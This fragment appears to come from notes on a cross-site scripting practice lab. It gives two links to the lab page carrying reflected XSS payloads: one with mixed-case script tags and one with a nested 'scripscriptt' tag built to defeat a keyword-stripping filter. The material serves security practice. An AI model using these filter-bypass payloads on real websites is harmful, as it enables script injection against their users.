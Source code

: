 [http://www.zixem.altervista.org/XSS/2.php?name=<scrIpt>alert(1337)</scrIpt>](https://zixem.altervista.org/XSS/2.php?name=%3CscrIpt%3E%20alert(1)%3C/scrIpt%3E)
[http://www.zixem.altervista.org/XSS/2.php?name=<scripscriptt>alert(1337)</scripscriptt>](https://zixem.altervista.org/XSS/2.php?name=%3Cscripscriptt%3Ealert(1337)%3C/scripscriptt%3E)


